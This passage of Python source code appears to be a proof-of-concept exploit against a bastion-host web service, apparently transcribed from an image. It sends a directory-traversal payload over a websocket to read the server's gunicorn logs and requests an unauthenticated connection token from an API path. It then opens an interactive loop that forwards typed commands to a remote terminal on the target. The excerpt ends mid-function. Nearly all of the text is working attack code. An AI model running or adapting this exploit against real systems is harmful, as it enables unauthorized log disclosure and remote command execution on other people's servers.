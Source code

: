 ```python
class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"peiqi/../../../../../logs/gunicorn"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        print(data)
        if "/api/v1/perms/asset-permissions/user/validate/?" in data:
            print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    print(response.status_code)
    ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
    try:
        if ws_open == "Y" or ws_open == "y":
                ws = target_url.strip("http://")
                try:
                    ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                    ws.connect()
```